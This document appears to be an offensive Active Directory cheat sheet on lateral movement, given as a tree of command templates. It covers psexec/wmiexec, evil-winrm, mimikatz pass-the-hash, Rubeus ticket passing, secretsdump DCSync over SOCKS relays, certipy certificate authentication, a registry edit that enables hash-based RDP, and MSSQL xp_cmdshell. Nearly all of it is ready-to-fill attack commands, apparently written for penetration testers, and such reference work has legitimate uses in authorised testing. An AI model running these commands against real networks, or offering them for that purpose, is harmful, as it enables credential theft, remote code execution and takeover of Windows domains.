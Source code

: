 # Lateral Move

## Clear text Password >>> Admin
- Interactive-shell - psexec >>> Authority/System
  - `psexec.py <domain>/<user>:<password>@<ip>`
  - `psexec.exe -AcceptEULA \\<ip>`
  - `psexecsvc.py <domain>/<user>:<password>@<ip>`
- Pseudo-shell (file write and read)
  - `atexec.py  <domain>/<user>:<password>@<ip> "command"`
  - `smbexec.py  <domain>/<user>:<password>@<ip>`
  - `wmiexec.py  <domain>/<user>:<password>@<ip>`
  - `dcomexec.py  <domain>/<user>:<password>@<ip>`
  - `nxc smb <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- WinRM >>> Low access || Admin
  - `evil-winrm -i <ip> -u <user> -p <password>`
  - `Enter-PSSession -ComputerName <computer> -Credential <domain>\<user>`
  - `nxc winrm <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- RDP >>> Low access || Admin
  - `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>`
- SMB >>> Search files
  - `smbclient.py <domain>/<user>:<password>@<ip>`
  - `smbclient-ng.py -d <domain> -u <user> -p <password> --host <ip>`
- MSSQL >>> MSSQL
  - `nxc mssql <ip_range> -u <user> -p <password>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`

## NT Hash
- Pass the Hash
  - MSSQL/PseudoShell PsExec/SMB...  >>> Admin
    - `impacket : same as with creds, but use -hashes ':<hash>'`
    - `nxc : same as with creds, but use -H ':<hash>'`
  - `mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"` >>> Admin
  - RDP >>> Low access || Admin
    - `reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'`
      - `xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>`
  - WinRM >>> Low access || Admin
    - `evil-winrm -i <ip> -u <user> -H <hash>`
- Overpass the Hash / Pass the key (PTK) >>> Admin
  - `Rubeus.exe asktgt /user:victim /rc4:<rc4value>`
    - `Rubeus.exe ptt /ticket:<ticket>`
    - `Rubeus.exe createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]`
  - `getTGT.py <domain>/<user> -hashes :<hashes>`

## Kerberos
- Pass the Ticket (ccache / kirbi)
  - Convert Format
    - `ticketConverter.py <kirbi||ccache> <ccache||kirbi>`
  - `export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache` >>> Admin
    - `impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket`
  - `mimikatz kerberos::ptc "<ticket>"`
  - `Rubeus.exe ptt /ticket:<ticket>`
  - `proxychains secretsdump.py -k'<domain>'/'<user>'@'<ip>'`
  - Modify SPN >>> PassTheTicket
    - `tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>" #pr 1256`

- Aeskey >>> Admin
  - `impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)`
  - `proxychains secretsdump.py -aesKey <key> '<domain>'/'<user>'@'<ip>'`

## Socks (relay)
- `proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids`
- `proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass` >>> MSSQL
- `proxychains secretsdump.py -no-pass '<domain>'/'<user>'@'<ip>'` >>> DCSYNC
- `proxychains smbclient.py -no-pass <user>@<ip>` >>> Search files
- `proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"` >>> Authority/System
- `proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>` >>> Authority/System

## Certificate (pfx)
- unpac the hash
  - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - `gettgtpkinit.py -cert-pfx <crt.pfx> -pfx-pass <crt_pass> "<domain>/<dc_name>" <tgt.ccache>`
    - `getnthash.py -key '<AS-REP encryption key>' '<domain>'/'<dc_name>'`
- Pass the certificate
  - pkinit
    - `gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"`
    - `Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show`
    - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - schannel
    - `certipy auth -pfx <pfx_file> -ldap-shell`
      - add_computer
        - Set RBCD >>> RBCD
    - `certipy cert -pfx "<pfx_file>" -nokey -out "user.crt"`
      - `certipy cert -pfx "<pfx_file>" -nocert -out "user.key"`
        - `passthecert.py -action ldap-shell -crt <user.crt> -key <user.key> -domain <domain> -dc-ip <dc_ip>`

## MSSQL
- find mssql access
  - `nxc mssql <ip> -u <user> -p <password> -d <domain>` >>> MSSQL
  - `MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p` >>> MSSQL
- Users or Computers with SQL admin
- `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
  - `enum_db`
  - `enable_xp_cmdshell`
    - `xp_cmdshell <cmd>` >>> Low Access
  - `enum_impersonate`
    - `exec_as_user <user>` >>> MSSQL
    - `exec_as_login <login>` >>> MSSQL
  - `xp_dir_tree <ip>` >>> COERCE SMB
  - `trustlink` 
    - `sp_linkedservers`
      - `use_link` >>> MSSQL || Trust